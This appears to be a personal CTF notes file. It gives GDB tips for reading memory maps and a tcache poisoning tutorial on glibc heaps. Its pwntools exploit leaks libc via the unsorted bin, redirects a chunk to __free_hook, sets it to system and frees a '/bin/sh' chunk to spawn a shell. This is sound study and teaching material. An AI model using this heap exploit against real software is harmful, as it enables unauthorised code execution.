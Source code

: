 # NOTE CTF
This is a note for the CTF challenges I have solved. It contains write-ups, hints, and resources that I found useful during the competitions.

## GDB

- `info proc mappings` : is useful to see the memory layout of the process for *ASLR* challenges.
  - **Example output**:
    - `0x7458f3059000     0x7458f307b000    0x22000        0x0  r--p   /.../libc.so.6` : is the libc address range. The base address is `0x7458f3059000`. Most of the time this is the **first address** displayed by this command for the libc path.
    - `0x7458f324d000     0x7458f324e000     0x1000        0x0  r--p   /.../binary` : is the binary address range. The base address is `0x7458f324d000`. Most of the time this is the **first address** displayed by this command for the binary path.

## Tcache poisoning

Tcache poisoning is a heap exploitation technique that targets the tcache (thread-local cache) mechanism in modern versions of the GNU C Library (glibc). Tcache is used to speed vup memory allocation and deallocation by caching small chunks of memory. 

The tcache is an stack-like LIFO structure that can hold up to 7 chunks of the same size class. When a chunk is freed, it is added to the tcache for its size class. When a chunk of that size is requested, it is taken from the tcache if available.

### Prerequisites

Need to have acces to `malloc`, `free`, an `read malloced` chunk and an `edit malloced` chunk function.

### Steps

1. **Fill the tcache**: Allocate 9 chunks of the same size (e.g., 0x20 bytes).
2. **Allocate big chunk**: Allocate a big chunk (e.g., 0x450 bytes) for a future leak.
3. **Allocate small chunk**: Allocate a small chunk (e.g., 0x20 bytes) for a future leak.
4. **Free chunks**: Free from the third chunk to the ninth chunk (7 chunks in total) to fill the tcache for that size class.
5. **Free the big chunk**: Free the big chunk to place it in the unsorted bin. (offset 10)
6. **Display the big chunk**: Display the content of the big chunk to leak a libc address. Calculate the libc base address using the leaked address and the known offset of `main_arena`.
7. **Edit a small chunk**: Edit the eighth chunk to overwrite its forward pointer (fd) with the address of `__free_hook` (calculated using the libc base address). Be cause it's the second last chunk freed, it will be the first chunk allocated in the next allocation of that size.
8. **Allocate chunks**: Allocate three chunks of the same size (0x20 bytes). The first allocation will return a normal chunk, the second allocation will be use as argument for the next step, and the third allocation will return a chunk at the address of `__free_hook`. 
9. **Overwrite `__free_hook`**: Edit the third allocated chunk to overwrite `__free_hook` with the address of `system` (calculated using the libc base address) and overwrite the second allocated chunk with `/bin/sh`.
10. **Trigger the exploit**: Free the second allocated chunk (which contains `/bin/sh`). This will call `system("/bin/sh")`, giving you a shell.

### Example

```python
from pwn import *

bin_size = 10

## ADD 9 SONGS FROM 0 to 8

for i in range(9):
    add_song(p, bin_size, b'A' * 10)

# 0x450 -> large to leak main_arena
# Not store in tcache
# metadata pointer libc (main_arena)
add_song(p, 0x450, b'AA') # idx 9

# Here the bin size is not mandatory

add_song(p, bin_size, b'AA') # idx 10

## FREE FROM 2 to 8
for i in range(2, 9):
    delete_song(p, i)

## tcache full max 7 chunks of same size

## FREE 9
delete_song(p, 9)

## VIEW 9 TO LEAK MAIN ARENA ADDRESS
leak = view_song(p, 9)
libc.address = u64(leak.ljust(8, b'\x00')) - 0x1ecbe0 # offset main_arena

print(f'LIBC BASE: {hex(libc.address)}')

## EDIT FD to point to __free_hooks
edit_song(p, 7, 10, p64(libc.symbols['__free_hook']))

add_song(p, bin_size, b'AA') # idx 11
add_song(p, bin_size, b'/bin/sh\x00') # idx 12
add_song(p, bin_size, p64(libc.symbols['system'])) # idx 13 -> __free_hook = system

delete_song(p, 12)

p.interactive()
```
```
